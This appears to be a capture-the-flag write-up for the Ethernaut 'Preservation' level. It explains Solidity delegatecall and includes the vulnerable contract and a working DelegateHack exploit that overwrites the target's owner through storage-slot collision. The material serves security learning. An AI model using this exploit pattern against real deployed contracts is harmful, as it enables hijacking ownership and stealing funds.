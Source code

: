 # Understanding Delegate Call in Solidity Contracts

## Introduction
In Solidity smart contracts, delegate calls are a powerful feature that enables one contract to execute code from another contract while preserving the context of the calling contract. This mechanism is crucial for implementing upgradable contracts, where logic can be changed without modifying the contract's state or storage. In this article, we'll delve into how delegate calls work and explore a practical example.

## Overview
The example contract `Preservation` demonstrates the usage of delegate calls. It consists of two library contracts (`timeZone1Library` and `timeZone2Library`) and a main contract `Preservation`. The main contract's purpose is to delegate calls to these libraries for setting timestamps for different time zones.

## How Delegate Calls Work
Delegate calls execute the code of the called contract within the context of the calling contract. This means that the called contract's code is run, but the state variables, `msg.sender`, and `msg.value` are all taken from the calling contract.

### Implementation Details
- The `Preservation` contract has two public library addresses: `timeZone1Library` and `timeZone2Library`.
- The `setFirstTime` and `setSecondTime` functions in `Preservation` contract delegate calls to the respective time zone libraries.
- The `LibraryContract` holds a `storedTime` variable and provides a `setTime` function to update it.

## Exploiting Delegate Call
In this level, we exploit the delegate call mechanism to modify critical state variables in the target contract. Here's how it's done:

1. Deploy the contract and obtain its address.
2. Call `setFirstTime` function with the address of the deployed contract as an argument. This will execute the library contract's code, modifying the storage of the deployed contract.
3. Define a `setTime` function in the deployed contract. This function will manipulate the target contract's storage directly.
4. With the `setTime` function, modify critical variables like `owner`, thereby altering the behavior of the target contract.

## Conclusion
Understanding delegate calls is crucial for building robust and upgradable smart contracts in Solidity. While powerful, they also come with security implications, especially when interacting with external contracts. Developers must carefully design their contracts and thoroughly test delegate call functionalities to ensure the security and integrity of their decentralized applications.

By grasping the concepts outlined in this article, developers can leverage delegate calls effectively and build more flexible and maintainable smart contract systems.


### Preservation

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract Preservation {
    
      // Public library contracts 
      address public timeZone1Library;
      address public timeZone2Library;
      address public owner; 
      uint storedTime;
      // Function signature for delegatecall
      bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
    
      constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress; 
        timeZone2Library = _timeZone2LibraryAddress; 
        owner = msg.sender;
      }
     
      // Set the time for timezone 1
      function setFirstTime(uint _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
      }
    
      // Set the time for timezone 2
      function setSecondTime(uint _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
      }
    }
    
    // Simple library contract to set the time
    contract LibraryContract {
    
      // Stores a timestamp 
      uint storedTime;  
    
      function setTime(uint _time) public {
        storedTime = _time;
      }

# Exploit Contract Address

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;
    
    import "../instances/Ilevel16.sol";
    
    contract DelegateHack {
    
        address public t1;
        address public t2;
        address public owner;
        Preservation level16 = Preservation(0x1E422B805DC5541a09fBbf239D734313B9F42Eca);      
    
        function exploit() external {
            level16.setFirstTime(uint256(address(this)));
            level16.setFirstTime(uint256(0xEAce4b71CA1A128e8B562561f46896D55B9B0246));
        }
    
        function setTime(address _owner) public {
            owner = _owner;
        }
    
    }

